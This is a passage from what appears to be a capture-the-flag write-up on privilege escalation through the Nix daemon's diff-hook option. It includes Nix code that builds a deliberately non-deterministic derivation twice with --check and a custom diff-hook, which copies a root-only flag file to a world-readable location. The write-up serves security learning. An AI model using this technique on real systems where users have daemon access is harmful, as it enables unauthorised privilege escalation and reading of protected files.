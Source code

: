 This `diff-hook` is executed when the output of the same derivation differs
from a previous build, with the goal of calculating the differences
between the two builds (hence the name).
Therefore, to take advantage of `diff-hook`, we need to build an unstable
derivation, that is, a derivation that doesn't always produce the same output.
An easy way to achieve this is to read from `/dev/random` and write it
to the derivation output, as such:

```nix, hl_lines=10
{
  exploit-inner = pkgs.stdenv.mkDerivation {
    name = "exploit-inner";

    phases = ["installPhase"];

    installPhase = ''
      mkdir $out
      # Write 16 random bytes to $out/data
      dd if=/dev/urandom of=$out/data bs=16 count=1
    '';
  };
}
```

With our unstable derivation at hand, we can now build it twice,
making sure to tell Nix to rebuild the derivation a second time
with the `diff-hook` and to check it against the previous build
with the `--check` option, otherwise it would just realise it had
already been built and do nothing.

Our specially crafted `diff-hook` simply copies the flag, which
it has access to, to a different file that is readable by the
non-root user.

```nix, hl_lines=13-15 20
# ...
{
  packages.${system} = rec {
    exploit = pkgs.stdenv.mkDerivation {
      # ...
      installPhase = ''
        export NIX_REMOTE=unix:///tmp/daemon
        cp $src default.nix
        nix-build -A exploit-inner \
          -I nixpkgs=${nixpkgs}
        nix-build -A exploit-inner \
          -I nixpkgs=${nixpkgs} \
          --option diff-hook ${diffHook} \
          --option run-diff-hook true \
          --check
      '';
    };

    diffHook = pkgs.writeScript "diff-hook" ''
      cat /data/flag > /tmp/flag
    '';
  };
}
```


[Mastodon post]: https://hachyderm.io/@leftpaddotpy/112103523507978883
[daemon-snippet]: https://github.com/NixOS/nix/blob/2.13.6/src/nix/daemon.cc#L244-L252
[breaks RPM builds]: https://github.com/NixOS/nix/commit/98968fbb63a1a049b2439bfc2a7d53e5b51471e3
[daemon-log-message]: https://github.com/NixOS/nix/blob/2.13.6/src/nix/daemon.cc#L215-L217
[nix-pe-issue]: https://github.com/NixOS/nix/issues/9649#issuecomment-1868001568
[daemon-ops]: https://github.com/NixOS/nix/blob/2.13.6/src/libstore/daemon.cc#L269
[@nrab@hachyderm.io]: https://hachyderm.io/@nrab
[diff-hook-manual]: https://github.com/NixOS/nix/blob/2.13.6/doc/manual/src/advanced-topics/diff-hook.md
[setuid-wrappers]: https://discourse.nixos.org/t/how-to-create-setuid-wrapper-for-installed-program/2590/2
[su-output]: https://github.com/NixOS/nixpkgs/blob/6e2f00c83911461438301db0dba5281197fe4b3a/pkgs/os-specific/linux/shadow/default.nix#L88-L90
[setuid-shell]: https://unix.stackexchange.com/questions/364/allow-setuid-on-shell-scripts
[remove-trusted-users]: https://github.com/diogotcorreia/dotfiles/commit/e8cd4c0676eb8cc6ce7c7e814846831568adb735
[@leftpaddotpy]: https://hachyderm.io/@leftpaddotpy